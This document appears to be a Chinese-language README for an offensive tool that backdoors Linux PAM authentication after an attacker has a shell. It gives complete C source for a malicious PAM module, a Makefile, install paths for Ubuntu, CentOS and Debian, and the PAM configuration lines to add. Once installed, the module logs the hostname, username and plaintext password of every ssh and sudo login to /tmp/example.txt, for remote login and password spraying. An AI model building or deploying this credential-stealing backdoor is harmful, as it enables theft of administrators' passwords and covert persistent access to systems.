 ## PAM记录ssh或sudo明文密码

### 利用需求

当我们获取到目标shell后，无法爆破shadow，或信息搜集无法获取到密码

但又想要获取ssh密码进行远程登录或者进行内网密码喷洒，或其他密码需求

可以利用这个方法获目标系统管理员登录的明文密码

### 详情

Ubuntu 下，通过对/etc/pam.d 文件夹下的 sshd 和 sudo 的 PAM 使用配置的查看，可以发现他们 都对 common-auth 配置进行了引用

因此我们在/etc/pam.d/common-auth 配置文件中添加以下 配置（ubuntu），而在 Centos 下则各自在/etc/pam.d/sshd 和/etc/pam.d/sudo 中添加如下配置:

```
auth optional example.so

account optional example.so
```

创建example.c文件

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <security/pam_appl.h> 
#include <security/pam_modules.h> 
#include <security/pam_ext.h> 
#include <unistd.h>

#define STOREPATH "/tmp/example.txt"

PAM_EXTERN int pam_sm_setcred( pam_handle_t *pamh, int flags, int argc, const char **argv ) {
    return PAM_SUCCESS; 
    }
PAM_EXTERN int pam_sm_acct_mgmt(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    return PAM_SUCCESS; 
    }
PAM_EXTERN int pam_sm_authenticate( pam_handle_t *pamh, int flags,int argc, const char **argv ) {
    int retval;
    const char* username;
    const char* password; 
    char hostname[128];
    retval = pam_get_user(pamh, &username, "Username: "); 
    if (retval != PAM_SUCCESS) {
        return retval;
        }
    retval = pam_get_authtok(pamh,PAM_AUTHTOK,&password,NULL); if (retval != PAM_SUCCESS) {
        return retval;
        }
    gethostname(hostname, sizeof hostname);
    FILE *fp = NULL;
    fp = fopen(STOREPATH, "a+");
    fprintf(fp, "%s:%s:%s\n",hostname,username,password); 
    fclose(fp);

    return PAM_SUCCESS; 
}
```

创建Makefile文件

```
CFLAGS += -Werror -Wall
example.so: example.c
	gcc $(CFLAGS) -fPIC -shared -Xlinker -x -o $@ $<
```

终端执行make

![image-20220808113550564](./img/make.png)

Ubuntu 将生成的example.so文件复制到/lib/security;
centos  将文件放入/lib64/security目录下，没有该目录的话就创建一个
debian 位于 /usr/lib/x86_64-linux-gnu/security/

最终的明文密码放在/tmp/example.txt文件中

![image-20220808113550564](./img/req.png)

### 使用方法

```
git clone https://github.com/yaunsky/sshpam
cd sshpam
make
cp example.so /lib/security;或cp example.so /lib64/security
```

### 报错解决

make时报错

![image-20220808113550564](./img/error.png)

ubuntu 需下载 libpam0g-dev

```
apt-get install libpam0g-dev
```

centos 需下载 pam-devel

```
yum install pam-devel
```

